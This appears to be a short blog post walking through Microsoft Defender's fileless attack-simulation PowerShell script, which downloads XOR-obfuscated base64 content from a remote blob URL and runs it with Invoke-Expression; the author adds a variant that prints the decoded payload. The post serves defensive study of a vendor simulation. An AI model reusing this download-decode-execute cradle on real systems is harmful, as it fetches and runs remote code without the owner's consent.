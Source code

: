 ```yaml
---
layout: post
title: "Microsoft 365 Attack Simulation"
excerpt: "Fileless PS attack with Process Injection and SMB recon"
excerpt_separator: "<!--more-->"
categories:
  - security
tags:
  - MicrosoftDefender
  - Security
last_modified_at: 2023-07-28T11:12:23-02:00
---
```




# Analyze the script



>You can download the script for the MS defender portal of your tenant

Here is the complete script:

```shell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor	= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt	-UseBasicParsing).Content;Try{ $contentBytes =	[System.Convert]::FromBase64String($base64String) } Catch { $contentBytes =	[System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;	$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];	$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression	([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

The script converts the string 'WinATP-Intro-Injection' into a byte array using UTF-8 encoding.
It then makes a web request to the specified URL, fetches the content of the response, and stores it in the $base64String variable.


Let's write some line to decypher it:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String = (Invoke-WebRequest -URI https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt -UseBasicParsing).Content;

Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
};

$i = 0;
$decryptedBytes = @();
write-host -ForegroundColor Green deciphering...
$contentBytes.foreach{
    $decryptedBytes += $_ -bxor $xor[$i];
    $i++;
    if ($i -eq $xor.Length) {$i = 0}
};

# Displaying the decrypted content without executing it
$decryptedContent = [System.Text.Encoding]::UTF8.GetString($decryptedBytes)
write-host -ForegroundColor Cyan $decryptedContent
```



And execute it:


For More documentaion
https://mtpstaticcontent.blob.core.windows.net/mtpstaticfiles/MTP_PowerShellFilelessInjectionSMBRecon.pdf